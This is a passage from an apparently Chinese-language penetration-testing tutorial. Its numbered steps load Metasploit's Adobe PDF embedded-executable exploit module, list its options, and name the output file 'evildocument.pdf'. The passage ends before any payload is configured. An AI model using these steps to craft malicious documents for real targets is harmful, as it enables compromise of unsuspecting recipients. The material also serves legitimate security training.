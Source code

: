     ![](img/6-9-1.jpg)
    
4.  使用 PDF 内嵌模块：

    ```
    use exploit/windows/fileformat/adobe_pdf_embedded_exe 
    ```
    
5.  显示模块的可用选项。

    ```
    show options
    ```
    
    ![](img/6-9-2.jpg)
    
6.  设置我们想要生成的 PDF 文件名称：

    ```
    set FILENAME evildocument.pdf
    ```
    